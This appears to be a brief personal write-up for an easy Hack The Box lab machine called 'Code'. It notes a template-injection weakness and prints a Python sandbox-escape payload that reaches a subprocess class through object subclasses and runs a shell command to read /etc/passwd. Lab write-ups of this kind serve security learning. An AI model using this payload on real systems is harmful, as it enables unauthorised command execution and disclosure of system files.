 ## Code htb machine (easy)

code also vulneable to ssti ```val = f"{7*7}"```


found this initial payload

```bash
p = ().__class__.__bases__[0].__subclasses__()[317]

payload = "cat /etc/passwd"
proc = p(["sh", "-c", payload], stdout=-1, stderr=-1, stdin=-1)
out, _ = proc.communicate()

#print(out)

if out:
    print(out.decode())
```
